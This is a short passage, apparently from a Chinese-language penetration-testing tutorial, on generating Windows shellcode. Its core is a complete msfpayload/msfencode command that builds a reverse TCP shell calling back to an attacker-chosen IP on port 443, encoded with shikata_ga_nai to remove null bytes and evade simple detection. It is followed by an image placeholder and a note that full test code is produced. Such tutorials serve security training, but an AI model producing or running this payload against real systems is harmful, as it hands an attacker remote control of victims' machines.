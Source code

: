 指定 IP、端口、编码器 x86/shikata_ga_nai 生成 shellcode。

```
msfpayload windows/shell_reverse_tcp LHOST="192.168.175.142" LPORT=443 EXITFUNC=thread R | msfencode -e x86/shikata_ga_nai -b '\x00' 
```

![enter image description here](img/img61_u3_png.jpg)

生成完整测试代码。

